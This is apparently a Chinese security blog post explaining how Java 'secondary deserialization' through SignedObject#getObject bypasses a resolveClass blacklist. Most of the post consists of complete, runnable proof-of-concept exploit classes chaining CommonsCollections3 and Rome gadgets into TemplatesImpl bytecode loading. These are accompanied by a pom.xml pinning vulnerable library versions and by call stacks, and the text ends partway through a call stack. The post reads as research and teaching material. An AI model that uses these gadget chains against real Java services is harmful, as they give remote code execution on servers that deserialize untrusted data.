







+++
title= "Java二次反序列化漏洞"
slug= "java-secondary-deserialization"
description= ""
date= "2025-10-28T19:15:34+08:00"
lastmod= "2025-10-28T19:15:34+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

为什么需要二次反序列化，在场景中，代码通过重写`ObjectInputStream#resolveClass`进行黑名单防御。而二次反序列化链所需的类名不在黑名单中，从而 bypass。

```java
package util;

import java.io.IOException;
import java.io.InputStream;
import java.io.InvalidClassException;
import java.io.ObjectInputStream;
import java.io.ObjectStreamClass;
import java.util.Arrays;
import java.util.HashSet;
import java.util.Set;

public class SafeObjectInputStream extends ObjectInputStream {
    private static final Set<String> BLACKLIST = new HashSet<String>(Arrays.asList(new String[] {
        "javax.management.BadAttributeValueExpException",
        "org.apache.commons.collections4.map.AbstractHashedMap",
        "org.springframework.aop.target.HotSwappableTargetSource",
        "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl" 
    }));

    public SafeObjectInputStream(InputStream in) throws IOException {
        super(in);
    }

    protected Class<?> resolveClass(ObjectStreamClass desc) throws ClassNotFoundException, IOException {
        String className = desc.getName();
        if (BLACKLIST.contains(className))
            throw new InvalidClassException("Disallowed deserialization attempt: " + className);
        return super.resolveClass(desc);
    }
}
```

实际就是我们从 readObject 触发某一个类的某个方法，这个方法能够再次到 readObject，再将常规的链子拼接上去即可。

以下 gadget 学习所需要的依赖，pom.xml 如下

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>TwiceReadObject</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
        <cc3.version>3.2.1</cc3.version>
        <javassist.version>3.28.0-GA</javassist.version>
        <rome.version>1.0</rome.version>
        <spring.version>5.3.23</spring.version>
        <cb.version>1.9.4</cb.version>
        <c3p0.version>0.9.5.5</c3p0.version>
        <fastjson.version>1.2.47</fastjson.version>
    </properties>

    <dependencies>
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>${fastjson.version}</version>
        </dependency>

        <dependency>
            <groupId>com.mchange</groupId>
            <artifactId>c3p0</artifactId>
            <version>${c3p0.version}</version>
        </dependency>

        <dependency>
            <groupId>commons-beanutils</groupId>
            <artifactId>commons-beanutils</artifactId>
            <version>${cb.version}</version>
        </dependency>

        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-aop</artifactId>
            <version>${spring.version}</version>
        </dependency>

        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-core</artifactId>
            <version>${spring.version}</version>
        </dependency>

        <dependency>
            <groupId>rome</groupId>
            <artifactId>rome</artifactId>
            <version>${rome.version}</version>
        </dependency>

        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>${cc3.version}</version>
        </dependency>

        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>${javassist.version}</version>
        </dependency>
    </dependencies>

</project>
```

## SignObject#getObject

跟进到这个方法

```java
    public Object getObject()
        throws IOException, ClassNotFoundException
    {
        // creating a stream pipe-line, from b to a
        ByteArrayInputStream b = new ByteArrayInputStream(this.content);
        ObjectInput a = new ObjectInputStream(b);
        Object obj = a.readObject();
        b.close();
        a.close();
        return obj;
    }
```

发现会到`a.readObject();`符合二次反序列化条件，可以试试 CC3 这条反序列化利用链，当我们使用二次反序列化的时候能否成功触发

```java
package org.example.Exp;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.HashMap;
import java.util.Map;

public class signObjectCC3 {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        setFieldValue(templates, "_bytecodes", new byte[][]{
                ClassPool.getDefault().get(org.example.Base.Eval.class.getName()).toBytecode()
        });

        Transformer[] fake = new Transformer[]{new ConstantTransformer(1)};
        Transformer[] real = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(
                        new Class[] {Templates.class},
                        new Object[] {templates}
                )
        };

        Transformer chain = new ChainedTransformer(fake);
        Map inner = new HashMap();
        Map lazy = LazyMap.decorate(inner, chain);

        TiedMapEntry entry = new TiedMapEntry(lazy, "key");
        Map exp = new HashMap();
        exp.put(entry, "value");
        lazy.remove("key");

        setFieldValue(chain, "iTransformers", real);

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject((Serializable) exp, kp.getPrivate(), Signature.getInstance("DSA"));
        signedObject.getObject();
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }
}
```



调用栈

```java
at org.apache.commons.collections.map.AbstractMapDecorator.<init>(AbstractMapDecorator.java:53)
at sun.reflect.GeneratedSerializationConstructorAccessor4.newInstance(Unknown Source:-1)
at java.lang.reflect.Constructor.newInstance(Constructor.java:422)
at java.io.ObjectStreamClass.newInstance(ObjectStreamClass.java:1006)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1785)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.defaultReadFields(ObjectInputStream.java:2000)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1924)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at java.util.HashMap.readObject(HashMap.java:1394)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at java.security.SignedObject.getObject(SignedObject.java:180)
at org.example.Exp.signObjectCC3.main(signObjectCC3.java:55)
```

这是我们手动触发的结果，现在需要找可以触发任意 getter 的 gadget，就可以串起来了🫡

### Rome(ObjectBean#hashcode)

```java
Hashtable#readObject() -> ObjectBean#hashcode() -> EqualsBean#beanHashCode() -> ToStringBean#toString()->SignedObject#getObject()
```

其中写 poc 的时候我们需要注意，我第一次写出的 poc 如下

```java
package org.example.Exp;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class Test {
    public static void main(String[] args) throws Exception {
        TemplatesImpl harmlessTemplates = new TemplatesImpl();
        setFieldValue(harmlessTemplates, "_name", "Pwnr");
        setFieldValue(harmlessTemplates, "_tfactory", new TransformerFactoryImpl());

        ToStringBean toStringBean = new ToStringBean(Templates.class,harmlessTemplates);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);

        Hashtable innerTable= new Hashtable<>();
        innerTable.put(equalsBean,"123");

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject((Serializable) innerTable, kp.getPrivate(), Signature.getInstance("DSA"));

        setFieldValue(harmlessTemplates, "_bytecodes", new byte[][]{ClassPool.getDefault().get(org.example.Base.Eval.class.getName()).toBytecode()});
        
        Hashtable outerTable= new Hashtable<>();
        outerTable.put(signedObject,"123");

        byte[] data=serialize(outerTable);
        unserialize(data);
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```



这里应该是 ObjectBean 的，但是却是 signObject，

```java
package org.example.Exp;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.Hashtable;

public class Test {
    public static void main(String[] args) throws Exception {
        TemplatesImpl harmlessTemplates = new TemplatesImpl();
        setFieldValue(harmlessTemplates, "_name", "Pwnr");
        setFieldValue(harmlessTemplates, "_tfactory", new TransformerFactoryImpl());

        ToStringBean toStringBean = new ToStringBean(Templates.class,harmlessTemplates);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);

        Hashtable innerTable= new Hashtable<>();
        innerTable.put(equalsBean,"123");

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject((Serializable) innerTable, kp.getPrivate(), Signature.getInstance("DSA"));

        setFieldValue(harmlessTemplates, "_bytecodes", new byte[][]{ClassPool.getDefault().get(org.example.Base.Eval.class.getName()).toBytecode()});

        Hashtable outerTable = getpayload(SignedObject.class, signedObject);

        byte[] data=serialize(outerTable);
        unserialize(data);
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
    public static Hashtable getpayload(Class clazz, Object obj) throws Exception {
        ObjectBean objectBean = new ObjectBean(ObjectBean.class, new ObjectBean(String.class, "rand"));
        Hashtable hashtable = new Hashtable();
        hashtable.put(objectBean, "rand");
        ObjectBean expObjectBean = new ObjectBean(clazz, obj);
        setFieldValue(objectBean, "_equalsBean", new EqualsBean(ObjectBean.class, expObjectBean));
        return hashtable;
    }
}
```

加了个方法为了串联 ObjectBean 和 EqualsBean，也就到了`signObject#getObject`



```java
package org.example.Exp;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.Hashtable;

public class hashCodePoc {
    public static void main(String[] args) throws Exception {
        TemplatesImpl harmlessTemplates = new TemplatesImpl();
        setFieldValue(harmlessTemplates, "_name", "Pwnr");
        setFieldValue(harmlessTemplates, "_tfactory", new TransformerFactoryImpl());

        ToStringBean toStringBean = new ToStringBean(Templates.class,harmlessTemplates);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);

        Hashtable innerTable= new Hashtable<>();
        innerTable.put(equalsBean,"123");

        setFieldValue(harmlessTemplates, "_bytecodes", new byte[][]{ClassPool.getDefault().get(org.example.Base.Eval.class.getName()).toBytecode()});

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(innerTable, kp.getPrivate(), Signature.getInstance("DSA"));

        Hashtable outerTable = getpayload(SignedObject.class, signedObject);

        byte[] data=serialize(outerTable);
        unserialize(data);
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
    public static Hashtable getpayload(Class clazz, Object obj) throws Exception {
        ObjectBean objectBean = new ObjectBean(ObjectBean.class, new ObjectBean(String.class, "rand"));
        Hashtable hashtable = new Hashtable();
        hashtable.put(objectBean, "rand");
        ObjectBean expObjectBean = new ObjectBean(clazz, obj);
        setFieldValue(objectBean, "_equalsBean", new EqualsBean(ObjectBean.class, expObjectBean));
        return hashtable;
    }
}
```

调用栈

```java
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:507)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at com.sun.syndication.feed.impl.ToStringBean.toString(ToStringBean.java:137)
at com.sun.syndication.feed.impl.ToStringBean.toString(ToStringBean.java:116)
at com.sun.syndication.feed.impl.EqualsBean.beanHashCode(EqualsBean.java:193)
at com.sun.syndication.feed.impl.EqualsBean.hashCode(EqualsBean.java:176)
at java.util.Hashtable.reconstitutionPut(Hashtable.java:1218)
at java.util.Hashtable.readObject(Hashtable.java:1195)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at java.security.SignedObject.getObject(SignedObject.java:180)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at com.sun.syndication.feed.impl.ToStringBean.toString(ToStringBean.java:137)
at com.sun.syndication.feed.impl.ToStringBean.toString(ToStringBean.java:116)
at com.sun.syndication.feed.impl.ObjectBean.toString(ObjectBean.java:120)
at com.sun.syndication.feed.impl.EqualsBean.beanHashCode(EqualsBean.java:193)
at com.sun.syndication.feed.impl.ObjectBean.hashCode(ObjectBean.java:110)
at java.util.Hashtable.reconstitutionPut(Hashtable.java:1218)
at java.util.Hashtable.readObject(Hashtable.java:1195)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1058)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1900)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
at org.example.Exp.hashCodePoc.unserialize(hashCodePoc.java:61)
at org.example.Exp.hashCodePoc.main(hashCodePoc.java:41)
```

### Rome(EqualsBean#equals)

```java
Hashtable#readObject() -> EqualsBean#equals() -> EqualsBean.beanEquals() -> SignedObject#getObject()
```

和之前一样改改即可

```java
package org.example.Exp;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import javassist.ClassPool;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.security.*;
import java.util.HashMap;
import java.util.Hashtable;

public class equalsBeanPoc {
    public static void main(String[] args) throws Exception{
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{ClassPool.getDefault().get(org.example.Base.Eval.class.getName()).toBytecode()});
        setFieldValue(obj, "_name", "a");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        Hashtable innerTable = getPayload(Templates.class, obj);

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(innerTable, kp.getPrivate(), Signature.getInstance("DSA"));

        Hashtable outerTable = getPayload(SignedObject.class, signedObject);
        byte[] data=serialize(outerTable);
        unserialize(data);
    }

    public static Hashtable getPayload (Class clazz, Object payloadObj) throws Exception{
        EqualsBean bean = new EqualsBean(String.class, "r");
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy", bean);
        map1.put("zZ", payloadObj);
        map2.put("zZ", bean);
        map2.put("yy", payloadObj);
        Hashtable table = new Hashtable();
        table.put(map1, "1");
        table.put(map2, "2");
        setFieldValue(bean, "_beanClass", clazz);
        setFieldValue(bean, "_obj", payloadObj);
        return table;
    }
    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }
    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```

调用栈如下

```java
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties(TemplatesImpl.java:507)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at com.sun.syndication.feed.impl.EqualsBean.beanEquals(EqualsBean.java:146)
at com.sun.syndication.feed.impl.EqualsBean.equals(EqualsBean.java:103)
